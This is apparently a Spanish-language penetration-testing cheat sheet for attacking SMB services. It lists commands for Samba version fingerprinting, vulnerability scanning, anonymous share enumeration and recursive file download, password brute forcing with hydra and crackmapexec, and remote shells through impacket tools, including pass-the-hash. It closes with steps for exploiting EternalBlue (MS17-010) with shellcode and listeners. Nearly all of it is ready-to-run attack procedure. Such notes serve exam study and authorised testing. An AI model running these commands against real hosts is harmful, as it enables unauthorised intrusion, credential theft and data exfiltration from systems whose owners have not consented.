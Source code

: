 
**CALCULAR VERSIÓN SI NMAP NO LO DETECTA

```
A veces, nmap no muestra la versión de Samba en el host remoto, si esto sucede, una buena manera de saber qué versión está ejecutando el host remoto es capturar el tráfico con wireshark contra el host remoto en 445/139 y ejecutarlo en paralelo. un smbclient -L, haga un flujo de seguimiento de tcp y con esto podríamos ver qué versión está ejecutando el servidor.

OR

sudo ngrep -i -d <INTERFACE> 's.?a.?m.?b.?a.*[[:digit:]]' port 139
smbclient -L <IP>
```

**ESCANEAR VULNERABILIDADES

```
nmap -p139,445 --script "smb-vuln-* and not(smb-vuln-regsvc-dos)" --script-args smb-vuln-cve-2017-7494.check-version,unsafe=1 <IP>
```

*If :

-   MS17-010 - [EternalBlue](https://liodeus.github.io/2020/09/18/OSCP-personal-cheatsheet.html#EternalBlue%20(MS17-010))

**MANUAL TESTING

```
smbmap -H <IP>
smbmap -u '' -p '' -H <IP>
smbmap -u 'guest' -p '' -H <IP>
smbmap -u '' -p '' -H <IP> -R
smbmap -u 'user' -p 'password' -H IP -r SHARE
smbmap -u 'user' -p 'password' -H IP -r SHARE/directorio
smbmap -u 'user' -p 'password' -H IP --download SHARE/directorio/archivo

crackmapexec smb <IP>
crackmapexec smb <IP> -u '' -p ''
crackmapexec smb <IP> -u 'guest' -p ''
crackmapexec smb <IP> -u '' -p '' --shares

enum4linux -a <IP>

smbclient --no-pass -L //$IP
smbclient //<IP>/<SHARE>

# Descargar todos los archivos de un directorio recursivamente:
smbclient //<IP>/<SHARE> -U <USER> -c "prompt OFF;recurse ON;mget *"
```

**BRUTEFORCE

```
crackmapexec smb <IP> -u <USERS_LIST> -p <PASSWORDS_LIST>
hydra -V -f -L <USERS_LIST> -P <PASSWORDS_LIST> smb://<IP> -u -vV
```

**MONTAR UN SMB SHARE A TU PC LOCAL

```
mkdir /tmp/share
sudo mount -t cifs //<IP>/<SHARE> /tmp/share
sudo mount -t cifs -o 'username=<USER>,password=<PASSWORD>'//<IP>/<SHARE> /tmp/share

smbclient //<IP>/<SHARE>
smbclient //<IP>/<SHARE> -U <USER>
```

**CONSEGUIR UNA SHELL

```
psexec.py <DOMAIN>/<USER>:<PASSWORD>@<IP>
psexec.py <DOMAIN>/<USER>@<IP> -hashes :<NTHASH>

wmiexec.py <DOMAIN>/<USER>:<PASSWORD>@<IP>
wmiexec.py <DOMAIN>/<USER>@<IP> -hashes :<NTHASH>

smbexec.py <DOMAIN>/<USER>:<PASSWORD>@<IP>
smbexec.py <DOMAIN>/<USER>@<IP> -hashes :<NTHASH>

atexec.py <DOMAIN>/<USER>:<PASSWORD>@<IP> <COMMAND>
atexec.py <DOMAIN>/<USER>@<IP> -hashes :<NTHASH>
```

- **ETERNALBLUE (MS17-010)

```
https://github.com/3ndG4me/AutoBlue-MS17-010
```

*PARA VER SI ES VULNERABLE*

```
python eternal_checker.py <IP> #creo que era python3
```

*PARA EXPLOTARLO*

Forma 1 (más compleja, usar el exploit según la versión de Windows objetivo) **(probar python2 y python3)

Preparar shellcodes y listeners

```
cd shellcode
./shell_prep.sh
cd ..
./listener_prep.sh
```

Explotación

```
python eternalblue_exploit<NUMBER>.py <IP> shellcode/sc_all.bin

Es posible que necesite ejecutarse varias veces para funcionar
```

Forma 2 (más fácil)

```
python2.7 zzz_exploit.py <IP>
```
